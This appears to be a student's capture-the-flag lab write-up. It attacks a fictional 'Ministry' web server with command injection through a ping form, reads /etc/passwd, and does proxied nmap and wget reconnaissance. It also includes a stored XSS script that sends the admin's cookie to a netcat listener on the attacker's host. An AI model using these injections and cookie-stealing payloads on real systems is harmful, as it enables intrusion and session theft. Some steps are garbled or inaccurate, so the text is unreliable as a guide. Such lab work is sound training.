 
2. Natasha Romanoff has been identified as a major contracting officer for the Ministry. Intelligence suggests that she may have a file on system which will identify which companies are contracted to work on sensitive projects. Investigate Ministry website and identify vulnerabilities which could allow collection through usage of command injection, directory traversal, or unrestricted file upload  Step 1: Here we can see a section called system to ping. Lets check if this allows any pings. In system to ping: 8.8.8.8--- this verifies it does allow ping  Step2: Now to see if this allows any command injection to try few commands on on of the three boxes ; pwd ---- to see the current directory ---- var/www/html/net_test ; whoami – who is logged in --- billybob ; cat /etc/passwd --- to see the password of users  view source page

Found billybob and his current default directory: /bin/bash  And /home/billybob as the main directory ; ls -al /var/www/html --- to view other directories

### Establish a dynamic connection to the jumpbox ###

ssh into your jump box dynamically ->`ssh student@10.50.49.22 -D 9050`

### VIP email address 5 ###

Through website reconnaissance, what is Romanoff's email address?

##### Answer ####

1. use proxychains and nmap to scan for open ports using the given address
    -> `proxychains nmap -Pn --open 10.100.28.40`
2. wget on the http port-> `proxychains wget -r http://10.100.28.40:80`
3. Find out what's running on 4444:
    -> `proxychains nmap -p 4444 -sV 10.100.28.40`
    -> ssh is running on this port so you can ssh to this port 
4. Check the downloaded folder for the robots.txt to see what's allowed to run. 
    -> opening the http://10.100.28.40/net_test/ we see Parent Directory and industry_check.php
    -> Go to the industry_check.php
    -> Click troubleticket. 
    -> open contract_bids.html and your answer will be here 

### Stored Cross Site Scripting (XSS) 8 ###

Intel has found that by policy the Admin must check the Trouble Ticketing system every few minutes. Team lead orders are to "obtain" the Admins cookie.

##### Answer ####

1. Set your listening port with port of your own on the ops machine -> student@lin-ops:~$ nc -knvl 9696
2. Go to from industry check in VIP email address ->  http://10.100.28.40/TT/ticket.php
3. Edit your cross site scripting script to inject your code like below (use your jump-box's ip address):
    <script>document.location="http://10.50.39.223:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
4. The flag should be displayed from your listening port. 

### Command Injection 1 8 ###
